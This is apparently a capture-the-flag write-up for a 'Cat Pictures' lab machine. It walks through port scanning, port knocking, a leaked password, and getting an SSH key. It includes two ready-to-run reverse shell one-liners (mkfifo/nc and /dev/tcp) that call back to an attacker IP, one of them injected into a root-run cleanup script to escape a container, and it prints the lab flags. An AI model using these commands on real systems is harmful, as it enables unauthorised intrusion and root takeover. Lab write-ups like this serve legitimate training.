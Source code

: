> Cat Pictures

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A $IP -oN nmap/initial

```bash
PORT     STATE SERVICE     REASON
22/tcp   open  ssh          syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
4420/tcp open  nvm-express? syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open  http         syn-ack Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
```

And we got a webpage with login at port 8080. And looking around we can find `http://10.10.215.252:8080/viewtopic.php?f=2&p=2#p2`

```
POST ALL YOUR CAT PICTURES HERE :)

Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

Looks like port knocking. Let's do it using knockd.

sudo knockd $IP 1111 2222 3333 4444

We got FTP open now! We can login as anonymous too!

# note.txt

```bash
note.txt 
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

nc -nv $IP 4420

And we got a shell with restricted environment. We can't run some commands but let's try to get a shell. 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.12.130 9001 >/tmp/f` gave us a shell. We still can't run commands but we can use cd. Hoping over to `/home/catlover` we can find a file called `runme`. Looks like an ELF file and running `cat runme` gives us some strings among them we can find an interesting string.

```bash
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

Let's assume that `rebecca` is the password for the file.
```bash
./runme

Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
```

Looks like it and we got an `id_rsa` file. We can use that to login as catlover through SSH.

ssh -i id_rsa catlover@10.10.188.208 => We are in as root.

# flag.txt

```
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9
```

Running Linpeas we got some interesting stuff!!

```bash
[+] System stats
Filesystem      Size  Used Avail Use% Mounted on
overlay          20G  7.3G   12G  40% /
tmpfs            64M     0   64M   0% /dev
tmpfs           238M     0  238M   0% /sys/fs/cgroup
shm              64M  360K   64M   1% /dev/shm
/dev/xvda1       20G  7.3G   12G  40% /opt/clean
tmpfs           238M     0  238M   0% /proc/acpi
tmpfs           238M     0  238M   0% /proc/scsi
tmpfs           238M     0  238M   0% /sys/firmware
              total        used        free      shared  buff/cache   available
Mem:         486564      281248       26724       12212      178592      181480
Swap:             0           0           0
```

We can see that /opt/clean is same as overlay. Let's check /opt/clean.

```bash
clean.sh 

#!/bin/bash
rm -rf /tmp/*

ls -la clean.sh 

-rw-r--r-- 1 root root 27 May  1 00:20 clean.sh
```

Let's try to add a reverse shell here and get a reverse shell

```bash
echo "bash -i >& /dev/tcp/10.9.12.130/9999 0>&1" > clean.sh
```

And we got a shell back as root and we have escaped the docker container.

# root.txt

```
4a98e43d78bab283938a06f38d2ca3a3c53f0476
```